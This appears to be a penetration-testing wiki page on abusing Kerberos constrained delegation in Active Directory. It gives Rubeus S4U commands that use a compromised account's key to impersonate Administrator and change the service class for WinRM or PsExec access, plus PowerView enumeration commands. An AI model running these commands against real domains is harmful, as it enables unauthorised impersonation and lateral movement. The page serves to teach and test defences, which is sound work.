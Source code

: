 ```yaml
---
label: Constrained Delegation
---
```


# Constrained Delegation Abuse

> **Requirements**
>
> * A compromised service or machine account with Constrained Delegation attribute.

{/*TODO: Can obtained TGS be used only against SPN in msds-allowedToDelegateTo? Or can we select deifferent SPN?*/}

Constrained Delegation is a special attribute (`TRUSTED_TO_AUTH_FOR_DELEGATION`) of a service account or machine account (with an associated SPN). This attribute means that an account with an SPN can use TGS for defined services on behalf of the user who authenticated to the service (example below).

## Correct usage

Example of correct usage (highly simplified):

```plaintext
                               Srv$
                     (  Machine account with  )
                     ( Constrained Delegation )
   User                   |'''''''''''''|
|=======| --------------> | User's TGS  |
               (Auth)     |,,,,,,,,,,,,,|
                                 |
                                 |
                                 |
                              HttpSvc
                     (     Allowed in Srv$      )
                     ( msds-allowedToDelegateTo ) 
                          |'''''''''''''|
                          | Auth using  |
                          | User's TGS  |
                          |,,,,,,,,,,,,,|
```

During authentication to Srv$ machine account (with Constrained Delegation) User's TGS is delegated. Srv$ can use User's TGS to access `HttpSvc` because this service is allowed in Srv$ Constrained Delegation `msds-allowedToDelegateTo` list of services.

## Abuse

An account with Constrained Delegation enabled is allowed to request TGT tickets to itself as any user, in a process known as *S4U2self*. That TGT is then used to request a valid TGS to `msds-allowedToDelegateTo` SPNs. As a result, we (`/user` param) obtain a TGS of another domain user (`/impersonateuser`) which is valid to the target SPN (`/msdsspn`). In addition, the service class in the target SPN (the protocol part) can be changed to any other (`/altservice`).

> **NOTE**: `/altservice` parameter can be used to access other services on the target server and exploit different attack techniques:
>
> * `LDAP` – [DCSync attack](/windows-domain-privesc/from-dc)
> * `HOST,HTTP` – [WinRM lateral movement](/windows-lateral-movement/winrm)
> * `HOST,RPCSS,CIFS` – [PsExec lateral movement](/windows-lateral-movement/)  

```powershell
# Using aes256 of compromised user (RC4 can be used as well)
.\Rubeus.exe s4u /user:$compromised_user /aes256:$compromised_user_aes256 /impersonateuser:$domain_user_to_impersonate /msdsspn:$legit_spn_from_msds_list /altservice:$alternative_service_class /ptt
```

Example:

```powershell
# Example
.\Rubeus.exe s4u /user:MACHINE01$ /aes256:<machine01_aes> /impersonateuser:Administrator /msdsspn:"CIFS/srv01.adlab.local" /altservice:HOST,HTTP /ptt
```

Now we should be able to access `srv01.adlab.local` using [WinRM](/windows-lateral-movement/winrm) (`HOST,HTTP` services) as `Administrator` user.

## Enumerate machines and users with Constrained Delegation

PowerView module:

```powershell
Get-DomainUser -TrustedToAuth | select samaccountname, userprincipalname, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select samaccountname, userprincipalname, msds-allowedtodelegateto
```

## References

* [Ired, *Kerberos Constrained Delegation*](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation)
* [NotSoShant.io, *Attacking Kerberos: Constrained Delegaton*](https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/)
* [Rubeus Tool, *Constrained Delegation*](https://github.com/GhostPack/Rubeus?tab=readme-ov-file#s4u)
* [Orange, *Constrained Delegation Considerations for Lateral Movement*](https://sensepost.com/blog/2022/constrained-delegation-considerations-for-lateral-movement/)
